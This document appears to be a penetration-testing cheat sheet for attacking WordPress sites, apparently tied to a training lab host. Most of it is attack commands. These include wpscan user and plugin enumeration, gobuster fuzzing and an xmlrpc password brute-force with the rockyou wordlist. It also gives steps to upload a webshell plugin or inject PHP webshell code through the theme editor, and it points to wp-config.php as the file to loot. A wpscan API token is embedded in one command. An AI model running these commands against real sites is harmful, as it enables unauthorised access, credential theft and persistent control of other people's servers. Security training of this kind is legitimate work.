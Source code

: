 #### KNOW THAT YOU CAN PIVOT TO WHOEVER IS RUNNING HTE WEBSERVER ONCE YOU HAVE INITIAL ACCESS. or write abilities in a web folder.

#### WordPress

WPscan if it's wordpress. Add "-U $user -P $pass if you have credentials".

```bash
wpscan --url $url --enumerate p --plugins-detection aggressive # aggressive plugin detection
wpscan --url $url --disable-tls-checks --enumerate vp,vt,u,dbe --plugins-detection aggressive --plugins-version-detection aggressive --api-token KvAyO8bM4TYYDwJJMNhoU95g591rdNvk3jiKpQHG5uY
wpscan --url $url --disable-tls-checks -U users -P /usr/share/wordlists/rockyou.txt # use the usernames that you have from above
```

```bash
gobuster dir -u http://$ip -w /opt/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt -k -t 10 --exclude-length 6
gobuster dir -u http://$ip -w /opt/SecLists/Discovery/Web-Content/CMS/wp-themes.fuzz.txt -k -t 10 --exclude-length 6
```

Brute force login.

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

Malicious plugin.

- Go to admin page > Plugins --> Add New
- Upload the zip https://github.com/p0dalirius/Wordpress-webshell-plugin/blob/master/dist/wordpress-webshell-plugin-1.1.0.zip and activate the plugin
- Download https://github.com/p0dalirius/Wordpress-webshell-plugin/blob/master/console.py

```bash
python console.py -t $url/wordpress
```

Or go to theme editor, insert php webshell code and go crazy.

Money file is "wp-config.php".

Login.

```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

```bash
gobuster dir -e -q -n -u http://$1:$2 -k -w /opt/SecLists/Discovery/Web-Content/CMS/wordpress.fuzz.txt -o $DIR/wordpress.txt
gobuster dir -e -q -n -u http://$1:$2 -k -w /opt/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt -o $DIR/wpplugin.txt
gobuster dir -e -q -n -u http://$1:$2 -k -w /opt/SecLists/Discovery/Web-Content/CMS/wp-themes.fuzz.txt -o $DIR/wpthemes.txt
```
